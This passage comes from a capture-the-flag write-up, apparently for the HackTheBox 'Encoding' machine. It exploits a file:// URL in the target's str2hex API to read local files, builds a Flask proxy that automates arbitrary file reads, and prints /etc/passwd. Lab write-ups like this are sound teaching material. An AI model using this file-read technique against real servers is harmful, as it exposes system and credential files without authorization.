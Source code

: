 #### Local File Read

Given that the site is parsing URLs, I’ll try the `file://` [scheme](https://blog.hubspot.com/marketing/parts-url) to see if it can read files from disk. It can!

```

>>> json_data = {"action": "str2hex", "file_url": "file:///etc/hostname"}
>>> resp = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
>>> resp.json()
{'data': '656e636f64696e670a'}

```

That decodes to “encoding”, which makes sense as the hostname:

```

>>> bytes.fromhex("656e636f64696e670a").decode()
'encoding\n'

```

#### Make Proxy

I’m going to make a Flask proxy to make reading from the file system easy. I’ll walk through that in [this video](https://www.youtube.com/watch?v=f0m-3P7_bsU):

The final script is [here](https://gitlab.com/0xdf/ctfscripts/-/blob/master/htb-encoding/proxy.py):

```

#!/usr/bin/env python3

import requests
from flask import Flask, Response

app = Flask(__name__)

@app.route('/<path:file>')
def get_file(file):

    req_data = {"action": "str2hex", "file_url": f"file:///{file}"}
    resp = requests.post("http://api.haxtables.htb/v3/tools/string/index.php", json=req_data)
    return Response(bytes.fromhex(resp.json()['data']), content_type="application/octet-stream")

if __name__ == "__main__":
    app.run(debug=True)

```

When I run it, it listens on port 5000 such that I can do things like this in another terminal:

```

oxdf@hacky$ curl http://127.0.0.1:5000/etc/hostname
encoding
oxdf@hacky$ curl http://127.0.0.1:5000/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin          
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...[snip]...

```
